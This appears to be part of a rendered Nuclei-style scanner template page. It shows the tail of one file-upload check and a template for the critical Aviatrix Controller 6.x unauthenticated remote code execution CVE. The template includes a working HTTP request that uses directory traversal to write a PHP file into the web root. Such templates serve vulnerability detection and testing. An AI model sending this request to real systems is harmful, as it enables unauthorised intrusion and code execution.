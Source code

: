 ```

------WebKitFormBoundarySHHbUsfCoxlX1bpS

```

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. File uploaded successfully.
- part - body

**Type - dsl**

- dsl
  1. len(body) == 28

---

# Aviatrix Controller 6.x before 6.5-1804.1922 Remote Command Execution

## Description

- Aviatrix Controller 6.x before 6.5-1804.1922 contains a vulnerability that allows unrestricted upload of a file with a dangerous type, which allows an unauthenticated user to execute arbitrary code via directory traversal.
- severity - critical
- tags - cve,cve2021,rce,aviatrix,kev,fileupload,intrusive

## Requests

### Step - 1

```
POST /v1/backend1 HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

CID=x&action=set_metric_gw_selections&account_name=/../../../var/www/php/{{randstr}}.php&data=HACKERMAN<?php phpinfo()?>

```

### Step - 2
